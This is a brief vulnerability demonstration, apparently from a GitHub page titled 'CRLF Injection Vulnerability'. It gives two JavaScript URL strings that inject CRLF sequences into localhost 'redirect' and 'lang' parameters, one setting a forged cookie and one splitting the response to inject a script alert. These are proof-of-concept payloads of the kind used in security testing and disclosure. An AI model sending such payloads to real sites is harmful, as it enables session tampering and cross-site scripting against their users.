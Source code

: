 CRLF Injection Vulnerability

```js
"http://localhost:5000/?redirect=" +
  encodeURIComponent(
    "http://localhost:5000/test\r\nSet-Cookie: maliciousCookie=maliciousCookie",
  );
```

```js
"http://localhost:5000/?lang=" +
  encodeURIComponent(
    "zh-TW\r\nContent-Type: text/html\r\n\r\n<script>alert(1)</script>",
  );
```
